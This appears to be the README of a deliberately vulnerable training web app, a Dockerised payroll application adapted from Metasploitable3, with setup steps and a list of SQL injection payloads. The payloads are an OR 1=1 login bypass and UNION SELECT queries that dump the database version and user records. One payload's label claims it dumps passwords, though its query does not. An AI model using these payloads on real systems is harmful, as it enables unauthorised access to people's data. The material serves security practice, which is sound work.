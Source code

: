 # UPCI_Payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run using either of the following:

- `make run`
- `docker compose up --build`

Open web browser and visit:

- `localhost:8080`

Clean the Docker environment (after making changes):

- `make clean`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `jim_james`
    - `password`: `VictoryDance!`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT NULL,NULL,NULL,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT first_name, last_name, username, salary from users#`
    - `password`: `anythingyouwant`
